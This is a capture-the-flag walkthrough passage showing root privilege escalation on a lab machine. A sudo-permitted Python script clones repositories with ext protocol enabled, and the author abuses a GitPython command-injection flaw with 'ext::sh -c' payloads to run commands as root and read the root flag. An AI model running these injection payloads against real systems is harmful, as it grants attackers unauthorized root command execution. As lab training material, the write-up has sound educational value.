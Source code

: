 Let's look at that script
```py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
After examining the code and searching i found this <a href="https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858">article</a>
This CVE exists on GitPython package if the version is below 3.1.30

Let's check the version of GitPython on the machine we hacked
```bash
prod@editorial:~$ pip3 list | grep Git
GitPython             3.1.29
```
So it's vulnerable

according to the article we provided i used the payload `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'` and when i check the file i see it's created
```bash
prod@editorial:~$ ll /tmp/pwned
-rw-r--r-- 1 root root 0 Oct 19 08:51 /tmp/pwned
```

The executed command is done blindly so if we want to see the result of command we can redirect it to a file and read that file like using the command `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c whoami% >% /tmp/pwned'`
but why we use `%` ?? after searching i found that it's used to bypass some filteration but i didn't find an absolute reason at the end the most logical reason i found from the searches that it maybe encoded as space.

When we read the file now we will get this
```bash
prod@editorial:~$ cat /tmp/pwned 
root
```

we can now get the root flag using `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/pwned'`
then read this file

```bash
prod@editorial:~$ cat /tmp/pwned 
*****************************549
```

GG !!